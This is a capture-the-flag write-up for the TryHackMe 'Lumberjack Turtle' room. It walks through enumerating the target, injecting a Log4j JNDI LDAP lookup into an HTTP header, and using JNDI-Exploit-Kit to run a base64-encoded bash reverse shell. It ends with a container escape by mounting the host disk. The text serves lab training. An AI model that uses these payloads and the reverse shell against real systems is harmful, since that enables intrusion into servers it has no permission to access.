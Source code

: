 # Lumberjack Turtle Writeup

A Tryhackme box dealing with log4j. https://tryhackme.com/room/lumberjackturtle

## Task 1

This is just a start-up task. Launch the target and wait 7 minutes for all services to come online.

One think I like to do is add an entry in my `/etc/hosts` file for the target.
```bash
echo "{target-ip} target.thm" >> /etc/hosts
# don't forget to use two > so you append the hosts file, not overwrite it
```

## Task 2

As usual, start an nmap scan to see what ports are open.
```bash
nmap -sV -p- target.thm
```

This will reveal the target is listening on the standard ports: 22 and 80.

Browsing the website on port 80 doesn't reveal anything interesting.

### Enumerate subdirectories

Run a dirbuster or gobuster scan to see if you can enumerate any pages on the site.
```bash
gobuster dir -u target.thm -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
```

This reveals a `/~logs` path. The web page doesn't have anything but tells us to look deeper.
```bash
gobuster dir -u target.thm/~logs -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
```

Now we see a /~logs/log4j page. It's contents are "Hello, vulnerable world! What could we do HERE?"

For sending simple web requests I prefer [Httpie](https://httpie.io/).

With the log4j hits on the web site, let's start a listener and try adding a jndi ldap lookup to a common header.
```bash
nc -lvnp 9000
# new tab
echo "${jndi:ldap://{attack box ip}:9000}" > header.txt
http GET target.thm/~logs/log4j Accept:@header.txt
```

You will see a connection come through. This proves the server vulnerable to Log4j attacks.

Note: once the server connects back to your listener, the HTTP request will stay open until you close the connection on your side. This means you will have to stop and start your listener between requests you send to the server if you want to try this repeatedly.

### Exploit Log4j

I used https://github.com/pimps/JNDI-Exploit-Kit to attempt to exploit Log4j.

1. `git clone https://github.com/pimps/JNDI-Exploit-Kit`
1. `cd JNDI-Exploit-Kit/target`

At this point you need to prep a reverse shell. The JNDI Exploit Kit is expecting a string as a command it will make the target run.

I wanted to use a simple bash reverse shell (`bash -i >& /dev/tcp/{attacker IP}/9000 0>&1`), but had to base64 encode that, and include commands for the target to decode and run it.

I the base64 encoded shell came out to `YmFzaCAtaSA+JiAvZGV2L3RjcC97YXR0YWNrIGJveCBpcH0vOTAwMCAwPiYx`.

This will have to be passed to the exploit kit with instrutions for the target to decode and rn it.

Before we run the exploit, start a fresh listener `nc -lvnp 9000`.

Start the exploit kit with `java -jar JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar -C "echo YmFzaCAtaSA+JiAvZGV2L3RjcC97YXR0YWNrIGJveCBpcH0vOTAwMCAwPiYx | base64 -d | bash"`

The exploit kit will show you various LDAP listeners, depending on which Java version the target is running. We don't know, so I just started at the top and moved down.

```bash
echo "{ldap://{attack box ip}:1389/csnxyh" > header.txt
http GET target.thm/~logs/log4j Accept:@header.txt
```

And 💣, you'll see some logs in the Exploit Kit and your reverse shell listener will be connected. Now you're root on the attack box.

### Find the flag

You're root in the target system, but if you list `ls -las /` you'll see a `.dockerenv` file, which is a dead giveaway that you're in a container. Let's look for flags here, then try to get to the host.

Search for files with "flag" in the name:
```bash
find -name '*flag*' 2>/dev/null
```

Cat `/opt/.flag1` for the first flag.

As the room indicates, there is one more. I bet it's on the host.

### Escape the container

Let's just see what disks we have with `lsblk`

You'll see we have a 40GB disk visible? Let's try to mount it and see if it's the host OS.

```bash
mkdir /mnt/hostfs
mount /dev/xvda1 /mnt/hostfs
# since that worked we know the container was probably running in privileged mode
cd /mnt/hostfs/
ls -las
cd root
ls -las
```

Hmm, there's a folder called `...`? Take a peak there and you'll find the flag from the host.

## Useful Links

I found these resources very valuable while completing the room:
* https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
* https://infosecwriteups.com/lumberjack-turtle-writeup-29b647e9b694
* https://m3n0sd0n4ld.github.io/thm/Lumberjack-Turtle/
